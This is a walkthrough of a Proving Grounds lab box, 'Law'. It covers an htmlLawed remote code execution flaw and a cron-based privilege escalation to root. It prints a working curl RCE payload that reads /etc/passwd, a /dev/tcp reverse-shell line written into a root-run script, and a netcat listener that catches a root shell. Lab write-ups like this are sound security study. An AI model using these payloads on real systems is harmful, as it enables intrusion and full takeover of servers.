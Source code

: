 ```yaml
---
date: '2025-03-15'
before : '2025-03-11'
after : '2025-03-15'
title: 'Proving Grounds : Law'
categories: [ 'proving_grounds', 'pentest', 'ENG']
summary: 'Solving Law machine from Proving Grounds'
thumbnail: '../contentImages/law/3.png'
---
```


## 1. Initial Scan

```
Host is up (0.042s latency). 
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 20.37 seconds
           Raw packets sent: 65583 (2.886MB) | Rcvd: 65551 (2.624MB)
```

Nothing Special. Let's visit the web application.

## 2. Initial Foothold

As I visited port 80:

![image](../contentImages/law/3.png)

So it somehow seems to be an RCE case.
As I searched for cve, this popped up.

```
┌──(root㉿kali)-[/home/hlee]
└─# searchsploit htmlLawed
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
htmlLawed 1.2.5 - Remote Code Execution (RCE)                                    | php/webapps/52023.sh
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Hm okay.

The script itself didn't really work. So I tried to do it manually using the information from script.

```
┌──(hlee㉿kali)-[~]                                                                                                 
└─$ curl -s -d 'sid=foo&hhook=exec&text=cat /etc/passwd' -b 'sid=foo' http://192.168.205.190 |egrep '\&nbsp; \[[0-9]
+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/' 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin

```

Now I tried simple revshell. Remember, base64 encoding is faster than trying random binaries.

![image](../contentImages/law/4.png)

Got it. I'm logged in as a non-admin user.

## 2. Privilege Escalation

As I ran `linpeas.sh` I found some suspicious binaries, one of them was cleanup.sh which surely looks suspicious.

```
/var/cache/apache2/mod_cache_disk                                                                                   
/var/lib/php/sessions                                                                                               
/var/tmp                                                                                                            
/var/www/cleanup.sh                                                                                                 
/var/www/html           
```

I also ran pspy64:
```
2025/03/04 15:21:52 CMD: UID=0    PID=1      | /sbin/init 
2025/03/04 15:22:01 CMD: UID=0    PID=15355  | /usr/sbin/CRON -f 
2025/03/04 15:22:01 CMD: UID=0    PID=15357  | /usr/sbin/CRON -f 
2025/03/04 15:22:01 CMD: UID=0    PID=15358  | /bin/bash /var/www/cleanup.sh 
```

We can see that the root user is running the cleanup.sh!


Since the account I have had a write permission, I could modify the cleanup.sh. 
```
www-data@law:/var/www$ echo 'sh -i >& /dev/tcp/192.168.45.221/443 0>&1' > cleanup.sh                                
<i >& /dev/tcp/192.168.45.221/443 0>&1' >> cleanup.sh  
```
Then I waited calmly til the modified script get executed by cronjob.

```
┌──(hlee㉿kali)-[~]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.221] from (UNKNOWN) [192.168.205.190] 42046
sh: 0: can't access tty; job control turned off
# whoami
root
# 
```

Done! Pretty straight-forward. But again, understanding CVE is important.

---
## Source

- Me!

